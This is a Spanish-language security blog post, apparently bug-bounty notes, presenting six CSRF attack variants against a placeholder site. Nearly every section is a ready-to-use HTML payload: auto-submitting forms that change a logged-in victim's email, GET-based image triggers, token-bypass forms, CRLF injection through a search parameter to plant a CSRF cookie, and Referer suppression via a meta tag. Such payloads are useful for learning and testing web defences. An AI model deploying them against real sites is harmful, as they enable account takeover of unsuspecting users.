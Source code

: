 ```yaml
---
layout: post
title:  "CSRF Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/159375082-f0ca6711-c380-41c8-b82d-9e1515ff729e.png
beforetoc: ""
toc: false
tags: [ Web, Bug Bounty, Payloads ]
---
```

Ataques CSRF y sus distintas formas de implementarlo.

# Table of Contents
1. [Vulnerabilidad CSRF sin defensas](#CSRFsinDefensas)
2. [Validación token depende método solicitud](#CSRFenGET)
3. [Validación token depende presencia token](#CSRFenPresencia)
4. [El token CSRF no está vinculado a la sesión del usuario](#CSRFnoVinculado)<br>
   4.1. [Mismo token entre usuarios](#MismoTokenUsuarios)<br>
   4.2. [Token no vinculado a la sesion](#SesionTokenNoVinculado)
6. [El token se duplica en la cookie](#TokenDuplicaCooki)
5. [CSRF sin Referrer](#CSRFsinReferrere)


---

### 1- Vulnerabilidad CSRF sin defensas <a name="CSRFsinDefensas"></a>
**CSRF basico correo**<br>
Hace una peticion a la pagina en la ruta donde se cambia el correo y con el javascript confirma la peticion, lo cual se cambiará el correo con solo visitar la pagina.

Codigo de https://web-atacante.com/malicioso.html

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@evil-user.net" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### 2- CSRF donde la validación del token depende del método de solicitud <a name="CSRFenGET"></a>
Dependiendo del metodo de peticion, se puede hacer con GET
```html
<img src="https://vulnerable-web.com/my-account/change-email?email=pwned@evil-user.net"/>
```
---
### 3- CSRF donde la validación del token depende de la presencia del token <a name="CSRFenPresencia"></a>
No verifica el token CSRF, se eliminia y se bypassea.

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@evil-user.net" />
             <input type="hidden"  value="csrf" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### 4- El token CSRF no está vinculado a la sesión del usuario <a name="CSRFnoVinculado"></a>
**4.1- Usar el mismo token en ambos usuarios**<br>
Podemos usar el mismo Token CSRF en un usuario que en otro al no estar vinculado a la sesión del usuario <a name="MismoTokenUsuarios"></a><br>
Mi token: U6vJiRteqjSX46XRk57k6saqolEcdDvQ sirve para otros usuario tambien.
```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@evil-user.net" />
                        <input type="hidden" name="csrf" value="<csrf>"  />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
**4.2- El token CSRF no esta vinvulado a la sesion.** <a name="SesionTokenNoVinculado"></a><br>
Por lo que se podria usar el mismo csrf token y la misma csrf key en una cuenta que en otra para cambiar el correo  
```html
<html>
  <body>
    <form action="https://vulnerable-web.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwn&#64;ed&#46;com" /> 
      <input type="hidden" name="csrf" value="<csrf>" />
      <input type="submit" value="Submit request" />    </form>
  <img src="https://vulnerable-web.com/?search=test%0d%0aSet-Cookie:%20csrfKey=<key>" onerror="document.forms[0].submit()">

  </body>
</html>
```

---

### 5- El token CSRF simplemente se duplica en una cookie <a name="TokenDuplicaCookie"></a>
El token se valida en la cookie, podemos hacer que el usuario se cree su propio token csrf el cual indicamos nosotros.

![cookieToken](https://user-images.githubusercontent.com/47476901/159374578-694ad92d-dc4c-43c5-b169-a32c28eebf3f.png)

Como se validaba el token en la cookie podemos mandar la peticion para el cambio de correo.

```html
<html>
    <body>
        <form action="https://vulnerable-web.com/email/change" method="POST" >
            <input type="hidden" name="email" value="pwned@evil-user.net">
            <input type="hidden" name="csrf" value="tokenfalsojeje">
        </form>
		
        <img src="https://vulnerable-web.com/?search=hat%0d%0aSet-Cookie:%20csrf=tokenfalsojeje" onerror="document.forms[0].submit()">
    </body>
</html>
```


---
### 6- CSRF sin Referrer <a name="CSRFsinReferrer"></a>
Indicamos que no exista el Referer en el exploit del CSRF usando el tag de meta.

```html
<html>
  <head> 
     <meta name="referrer" content="no-referrer">
  </head> 
<body> 
   <form action="https://vulnerable-web.com/email/change" method="POST"> 
   <input type="hidden" name="email" value="pwned@evil-user.net" />
   <input type="submit"/>
</form> 
   <script>document.forms[0].submit();</script>
</body>
</html>
```
